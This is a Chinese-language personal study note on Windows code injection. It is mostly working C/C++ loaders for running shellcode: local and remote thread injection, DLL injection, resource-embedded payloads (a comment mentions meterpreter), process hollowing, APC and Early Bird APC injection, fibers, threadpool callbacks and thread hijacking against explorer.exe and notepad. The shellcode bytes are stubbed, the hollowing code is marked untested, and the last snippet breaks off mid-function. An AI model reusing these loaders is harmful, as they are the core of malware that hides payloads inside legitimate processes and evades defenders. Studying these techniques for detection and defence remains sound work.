代码注入学习
本地进程注入
要执行shellcode需要有一个RWX内存块。
在本例代码中
VirtualAlloc函数分配虚拟内存
{地址, 大小, 内存类型, 内存保护}
LPVOID VirtualAlloc(
[in, optional] LPVOID lpAddress,
[in] SIZE_T dwSize,
[in] DWORD flAllocationType,
[in] DWORD flProtect
);
sizeof 运算符计算shellcode长度
sizeof unary-expression
sizeof ( type-name )
memcpy 从缓冲区复制字节
#include "Windows.h"
int main()
{
unsigned char shellcode[] =
"\x48\x31";
void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(exec, shellcode, sizeof shellcode);
((void(*)())exec)();
return 0;
}
远程进程注入
本地进程注入启动的当前进程，远程进程注入是可以将代码注入到其他进程
OpenProcess 获取进程的句柄
VirtualAllocEx 在指定进程虚拟空间申请虚拟内存
WriteProcessMemory 往进程的虚拟内存写入shellcode
CreateRemoteThread 在远程进程上创建线程
#include "Windows.h"
int main(int argc, char *argv[])
{
unsigned char shellcode[] =
"\x48";
HANDLE processHandle;
HANDLE remoteThread;
PVOID remoteBuffer;
printf("Injecting to PID: %i", atoi(argv[1]));
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
CloseHandle(processHandle);
return 0;
}

DLL注入
将dll注入到远程进程，流程和远程进程注入差不多
int main(int argc, char *argv[]) {
HANDLE processHandle;
PVOID remoteBuffer;
wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
CloseHandle(processHandle);
return 0;
}
process doppelganging （进程分身）
https://github.com/hasherezade/process_doppelganging
从资源表载入shellcode
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
#include <iostream>
#include <Windows.h>
#include "resource.h"
int main()
{
// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"payload_bin");
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
void* exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(exec, shellcodeResouceData, shellcodeSize);
((void(*)())exec)();
return 0;
}
导入自定义资源

类型名称要对应

可看到shellcode被存储到了资源表中 
![[../images/20230706154501.png]]
Process Hollowing （进程挖空）
代码没测试成功，先放着
本例代码中
CreateProcessA函数 创建进程
BOOL CreateProcessA(
[in, optional] LPCSTR lpApplicationName, 执行的程序名称
[in, out, optional] LPSTR lpCommandLine, 执行的命令
[in, optional] LPSECURITY_ATTRIBUTES lpProcessAttributes, 一般NULL
[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes, 一般NULL
[in] BOOL bInheritHandles,
[in] DWORD dwCreationFlags, 进程标志
[in, optional] LPVOID lpEnvironment,
[in, optional] LPCSTR lpCurrentDirectory,
[in] LPSTARTUPINFOA lpStartupInfo, STARTUPINFOA结构体，指定创建时进程的主窗口的窗口工作站、桌面、标准句柄和外观。
[out] LPPROCESS_INFORMATION lpProcessInformation PROCESS_INFORMATION结构体,句柄及线程信息
);
NtQueryInformationProcess函数 检索有关指定进程的信息。
// process-hollowing.cpp : This file contains the 'main' function. Program execution begins and ends there.
//
#include <iostream>
#include <Windows.h>
#include <winternl.h>
using NtUnmapViewOfSection = NTSTATUS(WINAPI*)(HANDLE, PVOID);
typedef struct BASE_RELOCATION_BLOCK {
DWORD PageAddress;
DWORD BlockSize;
} BASE_RELOCATION_BLOCK, * PBASE_RELOCATION_BLOCK;
typedef struct BASE_RELOCATION_ENTRY {
USHORT Offset : 12;
USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;
int main()
{
// create destination process - this is the process to be hollowed out
LPSTARTUPINFOA si = new STARTUPINFOA();
LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
PROCESS_BASIC_INFORMATION* pbi = new PROCESS_BASIC_INFORMATION();
DWORD returnLenght = 0;
CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
HANDLE destProcess = pi->hProcess;
// get destination imageBase offset address from the PEB
NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8;
// get destination imageBaseAddress
LPVOID destImageBase = 0;
SIZE_T bytesRead = NULL;
ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);
// read source file - this is the file that will be executed inside the hollowed process
HANDLE sourceFile = CreateFileA("c:\\windows\\syswow64\\notepad.exe", GENERIC_READ, NULL, NULL, OPEN_ALWAYS, NULL, NULL);
DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
LPDWORD fileBytesRead = 0;
LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
// get source image size
PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;
// carve out the destination image
NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
myNtUnmapViewOfSection(destProcess, destImageBase);
// allocate new memory in destination image for the source image
LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
destImageBase = newDestImageBase;
// get delta between sourceImageBaseAddress and destinationImageBaseAddress
DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;
// set sourceImageBase to destImageBase and copy the source Image headers to the destination image
sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);
// get pointer to first source image section
PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
int err = GetLastError();
// copy source image sections to destination
for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
{
PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);
PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);
sourceImageSection++;
}
// get address of the relocation table
IMAGE_DATA_DIRECTORY relocationTable = sourceImageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
// patch the binary with relocations
sourceImageSection = sourceImageSectionOld;
for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
{
BYTE* relocSectionName = (BYTE*)".reloc";
if (memcmp(sourceImageSection->Name, relocSectionName, 5) != 0)
{
sourceImageSection++;
continue;
}
DWORD sourceRelocationTableRaw = sourceImageSection->PointerToRawData;
DWORD relocationOffset = 0;
while (relocationOffset < relocationTable.Size) {
PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
relocationOffset += sizeof(BASE_RELOCATION_BLOCK);
DWORD relocationEntryCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
for (DWORD y = 0; y < relocationEntryCount; y++)
{
relocationOffset += sizeof(BASE_RELOCATION_ENTRY);
if (relocationEntries[y].Type == 0)
{
continue;
}
DWORD patchAddress = relocationBlock->PageAddress + relocationEntries[y].Offset;
DWORD patchedBuffer = 0;
ReadProcessMemory(destProcess, (LPCVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), &bytesRead);
patchedBuffer += deltaImageBase;
WriteProcessMemory(destProcess, (PVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), fileBytesRead);
int a = GetLastError();
}
}
}
// get context of the dest process thread
LPCONTEXT context = new CONTEXT();
context->ContextFlags = CONTEXT_INTEGER;
GetThreadContext(pi->hThread, context);
// update dest image entry point to the new entry point of the source image and resume dest image thread
DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
context->Eax = patchedEntryPoint;
SetThreadContext(pi->hThread, context);
ResumeThread(pi->hThread);
return 0;
}
APC队列注入
队列会定期枚举，定期调用shellcode
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>
int main()
{
unsigned char buf[] =
"\xff";
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
HANDLE victimProcess = NULL;
PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
std::vector<DWORD> threadIds;
SIZE_T shellSize = sizeof(buf);
HANDLE threadHandle = NULL;
if (Process32First(snapshot, &processEntry)) {
while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
Process32Next(snapshot, &processEntry);
}
}
victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
if (Thread32First(snapshot, &threadEntry)) {
do {
if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
threadIds.push_back(threadEntry.th32ThreadID);
}
} while (Thread32Next(snapshot, &threadEntry));
}
for (DWORD threadId : threadIds) {
threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
Sleep(1000 * 2);
}
return 0;
}

Early Bird APC注入
由于是新起了一个进程，将恶意APC对象加到进程的线程中，所以会以启动进程的身份启动恶意代码
本例中用到的函数
QueueUserAPC 将APC对象添加到指定线程的APC队列
ResumeThread 唤醒线程
#include <Windows.h>
int main()
{
unsigned char buf[] =
"\xff";
SIZE_T shellSize = sizeof(buf);
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION pi = { 0 };
CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi); //起一个挂起状态的notepad进程
HANDLE victimProcess = pi.hProcess; //获取notepad进程的进程句柄
HANDLE threadHandle = pi.hThread; //获取notepad进程的线程句柄
LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE); //在notepad进程中分配一个虚拟内存
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
// 为指定的虚拟内存块分配一个APC对象类型
WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
// 往虚拟内存写入shellcode
QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
// 将包含shellcode的APC对象分配给notepad的线程
ResumeThread(threadHandle); //唤醒线程，将启动APC队列执行shellcode
return 0;
}

通过 QueueUserAPC和NtTestAlert注入
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
#include <Windows.h>
#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();
int main()
{
unsigned char buf[] =
"\xfc";
myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
SIZE_T shellSize = sizeof(buf);
LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
testAlert();
return 0;
}

从Fibers （纤程）载入shellcode
用一个纤程启动另一个恶意纤程
纤程是比线程更小一级的单位
本例中用到的函数
ConvertThreadToFiber 当前主线程转换为纤程
CreateFiber 创建纤程，创建的纤程不会启动
SwitchToFiber 调用纤程以便启动
#include <Windows.h>
int main()
{
//convert main thread to fiber
PVOID mainFiber = ConvertThreadToFiber(NULL);
unsigned char shellcode[] =
"\xfc";
PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE); //分配虚拟内存
memcpy(shellcodeLocation, shellcode, sizeof shellcode); //shellcode复制到虚拟内存
// create a fiber that will execute the shellcode
PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);
// manually schedule the fiber that will execute our shellcode
SwitchToFiber(shellcodeFiber);
return 0;
}

通过等待对象回调函数载入shellcode
设置一个对象，设置一个等待对象的回调函数(含shellcode)，将对象设置一直等待，执行回调函数(shellcode)
本例中用到的函数
CreateEvent 创建一个事件对象，返回事件句柄
RtlMoveMemory 复制内存块，目标，源
CreateThreadpoolWait 创建等待对象
SetThreadpoolWait 设置等待对象
WaitForSingleObject 检查当前状态
#include <windows.h>
#include <threadpoolapiset.h>
unsigned char shellcode[] =
"\xfc";
int main()
{
HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));
PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
SetThreadpoolWait(threadPoolWait, event, NULL);
WaitForSingleObject(event, INFINITE);
return 0;
}

从text表载入shellcode
#pragma section(".text")
__declspec(allocate(".text")) char goodcode[] =
"\xfc;
int main()
{
(*(void(*)())(&goodcode))();
}
远程线程劫持
指定远程进程，枚举进程的线程并劫持。
被劫持的进程会卡死。
可枚举当前进程指定一个进程名，或新起一个进程。
枚举指定进程名以便注入
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <stdio.h>
DWORD GetProcessIdByName(const wchar_t* processName) {
DWORD pid = 0;
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (snapshot != INVALID_HANDLE_VALUE) {
PROCESSENTRY32W processEntry;
processEntry.dwSize = sizeof(PROCESSENTRY32W);
if (Process32FirstW(snapshot, &processEntry)) {
do {
if (_wcsicmp(processEntry.szExeFile, processName) == 0) {
pid = processEntry.th32ProcessID;
break;
}
} while (Process32NextW(snapshot, &processEntry));
}
CloseHandle(snapshot);
}
return pid;
} //枚举进程名获取PID
int main()
{
unsigned char shellcode[] =
"\xfc";
HANDLE targetProcessHandle;
PVOID remoteBuffer;
HANDLE threadHijacked = NULL;
HANDLE snapshot;
THREADENTRY32 threadEntry;
CONTEXT context;
const wchar_t* processName = L"explorer.exe";
DWORD targetPID = GetProcessIdByName(processName); //得到PID
//DWORD targetPID = 5440;
context.ContextFlags = CONTEXT_FULL;
threadEntry.dwSize = sizeof(THREADENTRY32);
targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
Thread32First(snapshot, &threadEntry);
while (Thread32Next(snapshot, &threadEntry))
{
if (threadEntry.th32OwnerProcessID == targetPID)
{
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
break;
}
}
SuspendThread(threadHijacked);
GetThreadContext(threadHijacked, &context);
context.Rip = (DWORD_PTR)remoteBuffer;
SetThreadContext(threadHijacked, &context);
ResumeThread(threadHijacked);
}
创建一个后台进程注入
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <stdio.h>
int main()
{
unsigned char shellcode[] =
"\xfc";
HANDLE targetProcessHandle;
PVOID remoteBuffer;
HANDLE threadHijacked = NULL;
HANDLE snapshot;
THREADENTRY32 threadEntry;
CONTEXT context;
//const wchar_t* processName = L"notepad.exe";
//DWORD targetPID = GetProcessIdByName(processName);
char commandLine[] = "C:\\Windows\\System32\\notepad.exe";
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION pi = { 0 };
CreateProcessA(NULL, commandLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
DWORD targetPID = pi.dwProcessId;
HWND hWnd = FindWindow(NULL, NULL);
while (hWnd != NULL) {
DWORD processID;
GetWindowThreadProcessId(hWnd, &processID);
if (processID == targetPID) {
break;
}
